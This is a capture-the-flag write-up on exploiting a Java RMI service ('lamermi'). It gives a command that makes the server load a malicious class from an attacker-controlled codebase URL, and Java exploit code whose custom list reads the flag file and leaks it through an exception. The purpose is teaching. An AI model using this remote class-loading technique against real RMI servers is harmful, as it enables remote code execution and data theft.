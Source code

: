 ```bash
# running our client (the exploit), note the codebase url we're telling the server to use 
java -Djava.rmi.server.codebase=http://my.server.with.malicious.mylist.class/ it.polictf.lamermi.Exploit
```

### Writing the exploit

The following is the actual exploit code. We'll write a myList class with a malicious iterator method (although other methods are fine as well), and exfiltrate
the flag by throwing an exception, which will be propagated to the client.

```java
public class Exploit {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        Registry registry = LocateRegistry.getRegistry("lamermi.chall.polictf.it", 1099);
        System.out.println("registry found");
        AverageService averageService = (AverageService) registry.lookup("AverageService");
        System.out.println("average service found");

        List<Integer> l = new myList<>();
        System.out.println("sending exploit");
        Double result = averageService.average(l);
        
        System.out.println(result);
    }
}
```

```java
public class myList<E> implements List<E>, Serializable {
    public static final long serialVersionUID = 42L;
    
	//... other ovverrides
	
    @Override public Iterator<E> iterator() {
        try{
            String content = new String(Files.readAllBytes(Paths.get("flag")));
            throw new Error(content);
        } catch (Exception e) {
            throw new Error(e);
        }
    }
	
	//... other ovverrides
}
```

### About the vulnerability:

The server is vulnerable because of two pieces of configuration. The first one is this very permissive security policy,
which is not hard at all to find on the web and in stackoverflow questions.
